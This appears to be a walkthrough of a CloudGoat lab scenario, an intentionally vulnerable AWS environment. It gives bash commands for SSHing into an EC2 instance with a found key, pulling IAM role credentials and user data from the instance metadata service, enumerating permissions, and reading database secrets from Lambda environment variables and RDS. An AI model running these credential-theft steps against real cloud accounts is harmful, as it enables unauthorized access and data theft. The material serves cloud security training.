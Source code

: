 ```bash
# check EC2 instances in the AWS acount that we can use this SSH Key Pair against.
aws ec2 describe-instances \
    --query "Reservations[*].Instances[*].[KeyName,PublicIpAddress,Tags]" \
    --output text \
    --profile $SRC_PROFILE

# there is one EC2 instance that uses this SSH Key Pair. SSH into the EC2 instance -
chmod 400 private-key
ssh -i private-key ubuntu@<PUBLIC_IP_OF_EC2_INSTANCE>


# SSH into the SSH instance.
# two successful ways to find secret strings stored in a secure RDS database.


#### Route 2.1

# have the access to EC2 instance, use the IMDS service to do further enumeration.
# IMDS can be used to access user data that is specified when launching an EC2 instance. User Data tends to have sensitive information.
curl http://169.254.169.254/latest/user-data
# The User Data on the EC2 contains set of commands to connect to RDS instance from the EC2 instance.
# The command contains the credentials and endpoint for RDS Instance.
# The file also reveals the secret that is stored on the RDS instance.


#### Route 2.2

# It is a common practice to attach IAM roles to EC2 instances.
# Using this IAM roles the EC2 instance can interact with other AWS services in the AWS account.
# Any overly permissive IAM role can lead to privilege escalation.

# try and steal IAM Role credentials using IMDS.
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-<CLOUDGOAT_ID>

# The IAM role credentials we have stolen can be used like any other IAM identity credentials.
# the IAM role credentials are short lived and have a session token.
# The session token has to be manually added to the profile in the file `~/.aws/credentials` as `aws_session_token`.
aws configure --profile stolen-creds

# use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script
python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN
# Notice that the IAM role has some Lambda related permissions.

# list all the Lambda functions in the AWS account.
aws lambda list-functions --profile stolen-creds

# One of the Lambda functions has RDS instance database credentials in the environmant variables.

# Now that we have all the information required to connect to the target RDS instance
# use any PostgreSQL client to connect to the database and extract the secrets,
# In this case, using `psql`, a command line PostgreSQL client -

sudo apt install postgresql-client
psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin


# Once connected to the database, we can use commands to extract the secrets.
# securedb ->
```
